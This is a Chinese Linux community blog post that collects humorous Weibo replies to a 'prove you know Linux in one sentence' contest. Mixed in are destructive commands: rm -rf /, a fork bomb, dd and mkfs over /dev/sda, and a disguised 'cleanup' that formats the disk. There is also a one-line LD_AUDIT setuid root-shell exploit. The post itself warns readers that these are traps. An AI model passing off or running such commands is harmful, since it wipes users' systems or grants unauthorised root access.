 ```yaml
---
layout: post
title:	"《一句话证明你懂linux》的有趣评论"
date:	2015-01-26 11:43:00 +0800 
categories:	活动 linuxcn 
tags:	[linuxcn,Linux]
---
```



上周，[@Linux中国](http://weibo.com/n/Linux%E4%B8%AD%E5%9B%BD?from=feed&loc=at) 和 [@图灵教育](http://weibo.com/n/%E5%9B%BE%E7%81%B5%E6%95%99%E8%82%B2?from=feed&loc=at) 发起了一个活动：“[一句话证明你懂linux](http://weibo.com/1772191555/C0s1qqeYh)”，引来了网友的踊跃参加。网友的智慧是无穷的，我们将其中的一些有趣的回答撷取出来分享给大家。


![](/Asserts/Images/album/201501/26/114332oug6elcbqh8e9are.gif)


这里有秀命令的，果然不出所料，“rm -rf /”和 shell 炸弹是一定会出现的：


* @doublemark：cd mkdir rm 小白也能证明！
* @joeren1981：cat /etc/passwd | cut -d ':' -f 1 >>/root/userlist
* @love\_daisy\_love：mkdir ~/tmp; sudo fdisk -l | grep ^\/dev | grep -v swap | awk '{print $1}' | xargs -i sh -c "sudo mount {} ~/tmp; sudo rm -rf ~/tmp/Windows; sudo umount tmp"
* @进击的Manu\_coder：echo "tvir zr gurfr obbxf, gunax lbh" | tr [n-za-m] [a-z]
* @赍思潜行：:w !sudo tee % 偷凤转龙的vi命令
* @Seamile：for i in $'\111' $'\114\157\166\145' $'\114\151\156\165\170';do c=$((($RANDOM)%6+31));printf '\033[0;%sm%s \033[0m' $c $i;done
* @M\_四月天：ruby -e 'require "date"; puts DateTime.now.cweek' 你们知道今天是第几周么？[嘻嘻]
* @灰色的小翅膀飞啊飞：mkdir /tmp/exploit ln /bin/ping /tmp/exploit/target exec 999< /tmp/exploit/target rm -rf /tmp/exploit/ echo 'void \_\_attribute\_\_((constructor)) init(){setuid(0);system('/bin/bash');}' | gcc -w -fPIC -shared -o /tmp/exploit -xc - LD\_AUDIT='\$ORIGIN' ～～～got r00t...
* @hunterwan：kexec -l /mnt/$DEV/boot/uImage --append="console=ttyS0,38400 earlyprintk=ttyS0 root=/dev/ram0 rw initrc=myrc" --ramdisk=/mnt/$DEV/myramdisk.gz


也有炫知识的，我只能说，炫的好！


* @norvid：usr目录不是用户目录，而是 Unix System Resource。[嘻嘻]
* @kunis：用vim编写Linux C程序，并用Makefile构建它们，最后在Linux Shell上执行它们，Linux 就是这个范儿。
* @鱿蚊菟鸶：[喵喵] 被企鹅咬过的那个人说过，专利纠纷是开放源代码最大威胁。
* @一生中最爱6666：一切都是文件，每个软件都有特定的用途。
* @OoO牛奶咖啡：echo 3 > /proc/sys/vm/drop\_caches
* @chunk9：你知道吗？ls还有个–Z选项，那一天我打开了新世界的大门…
* @CodeMu：即使是删空目录，我也不用rmdir
* @吹尽狂沙的地盘： 把书给我吧，这个真没法fork（）一个出来！要不给我ln一个也行？
* @mirage\_hl：init是所有进程的爹[哈哈]
* @木木月yjq： “老公我想买个包包”，“老婆家里已经有很多了”，“我就要这个，sudo 买”，“好的，老大”。
* @骑车去首都：我得用less来看这本书啊@图灵教育 ，不太喜欢用more
* @爱开源魅影：我用grep在右面整理成的文章里找我的名字
* @ToB蓝波湾：每次关闭文件之前，我都习惯性的按一下ESC
* @mengalong：当年就知道a.out
* @比尔盖子V:新版内核已经没有讨厌的 BKL 了


他们说的你也知道么？


当然，还有挖坑的，哈哈——太坏了——大家可别上当：


* @kosmos可视模式：rm -rf / --no-preserve-root [doge]
* @葱花酱：dd if=/iso/file/url of=/dev/sda [泪]手误了[泪]  
而 @Junnplus *就善良多了*：sudo dd if=/dev/sda1 of=/dev/null
* @orz卑鄙的我：发现个快捷方式，mksf.ext3 /dev/sda ，可以清除系统垃圾
* @zlidentify：:(){ :|:& };:[xkl转圈]  
*放炸弹的也不止一个*
* @爱说小品的方格买提：mv /home /dev/null
* @天舞飞星：dd if=/dev/sr0 of=~/centos7.iso
* @eve\_ouyang：# dd if=/dev/zero of=/dev/sd{a..z} //忘记过去
* @New\_RoRer：sudo rm -rf /一条无比强大的命令，谁用谁知道～


上面这些都是坏银，大家可不要相信他们的命令~


跟小编套磁的，话说，小编该怎么办？


* @跳跳潮妈：Linux是个内核支持小编好活动，如有幸中奖会认真晒奖，积极支持小编工作，协助小编宣传扩散,支持你们！！
* @从春光：开源万岁，学习第一，求求你给我个机会。。。。。。。。。[给力][给力][给力]
* @嗨\_请叫我李小姐：送我送我，正在准备RHCE，作为妹子一枚学linux得鼓励一下是不是？


有些人则觉得求人不如求己，自己动手，丰衣足食：


* @于鸿儒：sudo ./configure --prefix=/post/to/my/home --version=Linux就是这个范
* @Jason\_YJS：echo "Just For Fun" if [ 转发人 -eq 我 ] then 送我《Linux程序设计》 fi
* @一堆好人卡：./configure --winner=me && make && sudo make install
* @higrase：scp $USER@${Linux中国}:$BOOKPATH/Linux就是这个范儿
* @ranyxie：不要怪我太贪心：chown -R 我:我 /Linux中国
* @s7eph4ni3：#echo "中奖"
* @alexle85：sudo apt-get "Linux shell 脚本编程入门"


当然，吐槽的一定是最有趣的：


* @蓝水军梦：新的MacBookAir电源键换位置了，估计大批Vimer会气死[偷乐]   
*不懂这条的，请结合下条看*
* @ToB蓝波湾：每次关闭文件之前，我都习惯性的按一下ESC
* @happy的沉思者：Read the fucking source code.这就是Linux的精髓，linus原话。
* @DarkParadises：A:Shift+F3好方便哦.....B:逗比，打个汉子给我看。A:...
* @alive欣：NTFS是整理控，时不时碎片整理一下最好，EXT4自以为很聪明，碎片还是有的。
* @薄荷开源网: kde是华丽的，gnome是激进的
* @小小泛泛：一个企鹅为什么有这么多名字啊[怒]
* @隆隆小宝马：微软面试官问：你是怎么知道微软的？ 答曰：在Linux社区看到的。
* @两块钱的马赛克：dd if=/dev/zero of =/dev/sda，我愿为你格式化自己
* @hop\_ping：Linux是用来玩的
* @xu3stones：elf，后缀名是神马？
* @呦呦斋：一看评论果然有写rm -rf /\*的。   
*小编也心有戚戚焉*
* @大米虫Gone：我们是男人，我们要坚挺强硬。----BadGuy
* @宋万伟\_song：自从有了大便，腰不酸了，腿不疼了，上楼也不费劲了[嘻嘻]
* @Edmund\_Dantes：sudo chmod 777 /\* 嘻嘻，话说我不止一次这么干过，linux完整良好的权限管理在当初刚开始学习时觉得无比麻烦，现在觉得自己那时候好傻逼[挖鼻屎]


还有来说幽默笑话的：


* @小晨主：给我一张过去的cd
* @Jeremy-n\_n-：记不住命令找man[doge]
* @revolver\_徐：给我吧，我家连窗户都没有。  
*这条得到了大家一致的“最右”*
* @XING\_Lei：刚刚还在和一个叫Linus Torvalds 的男人(man)聊天...
* @炎雪雨：bash对make说：“叫gcc来将hello.c翻译下，我不懂”
* @刹时\_恍惚：mount未来，. umount过去！！
* @风x铃：老师：那同学请你把本班的男同学和女同学按性质不同分个类~~那同学：好的，老师！$ ls -lha~(老师~拉恨啊！)~然后这同学直接走向讲台说一了句：男女配对现在开始~


这些任性的，真的好吗？


* @长弓之健：从来都是在终端里看片~@Linux中国
* @Yoetsu杨小悦：一切皆文件 不要书 不关注 任性[笑cry][笑cry]
* @TinyOS开发者-ytc：谢谢，这些书都不需要了，还是shutdown -h now吧[拜拜]
* @李庆年：如何正确的吵架，vi是世界上最好的编辑器。[喵喵][喵喵][喵喵]
* @2gua:Mint大法好！
* @如若仅此：《linux就这个范儿》 这本书我有了，可以考虑其它三本，谢谢合作！
* @Silly\_Hater：Linux so cool 。开源推动了它的发展。服务器是Linux的天下。而Linux是我的天下


居然还发现了老朋友？哈哈哈，居然还有这么多认识我 wxy 的啊——你说我是照顾呢，还是不照顾啊:>：


* @南非蜘蛛：和wxy一起混过chinaunix论坛
* @刘诗蓓：和wxy的把反垃圾邮件联盟环境迁移到我们这里
* @李永庆520：和wxy一起混过chinaunix论坛


跟着这些“老”朋友的，一些资深人士们也跑出来凑热闹了，话说你们这些老人们够了~~


* @許德華Mr：从事开源N年！！
* @陆文举：Linuxtone论坛元老，51CTO早期博主 [笑cry]
* @davistar：04年以前eden的版主，我应该是最早玩gentoo那拨人吧
* @贤才飞也：混Chinaunix论坛好多年，看Linuxeden好多年的飘过


居然还有做广告的——广告就不列了——直接举报


最后，这里列出的油菜人太多了，可不能人人都中奖，不过中奖的肯定是其中之四（随机抽取哦），等待一会儿我们的小编揭晓吧。
